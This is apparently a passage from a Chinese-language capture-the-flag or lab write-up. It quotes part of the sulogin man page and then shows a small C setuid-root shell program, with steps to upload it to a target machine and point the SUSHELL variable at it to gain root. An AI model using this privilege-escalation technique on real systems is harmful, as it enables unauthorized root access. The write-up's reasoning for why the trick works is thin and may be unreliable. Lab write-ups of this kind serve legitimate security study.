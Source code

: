 ```plaintext
       -p, --login-shell
              Specifying this option causes sulogin to start the shell process as a login shell.

       -t, --timeout seconds
              Specify the maximum amount of time to wait for user input.  By default, sulogin will wait forever.

       -h, --help
              Display help text and exit.

       -V, --version
              Display version information and exit.

ENVIRONMENT VARIABLES
       sulogin looks for the environment variable SUSHELL or sushell to determine what shell to start.  If the environment variable is not set, it will try to execute root's shell from /etc/passwd.  If that fails,  it  will  fall
       back to /bin/sh.

AUTHOR
       sulogin was written by Miquel van Smoorenburg for sysvinit and later ported to util-linux by Dave Reisner and Karel Zak.

AVAILABILITY
       The sulogin command is part of the util-linux package and is available from Linux Kernel Archive <https://www.kernel.org/pub/linux/utils/util-linux/>.

util-linux                                                                                                    July 2014                                                                                                    SULOGIN(8)
```

发现环境变量 `SUSHELL` 可以控制 `sulogin` 的行为，尝试编写一个程序进行利用

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

编译好之后，上传到靶机，然后设置环境变量

```shell
export SUSHELL=/tmp/a.out
```

即可进行提权
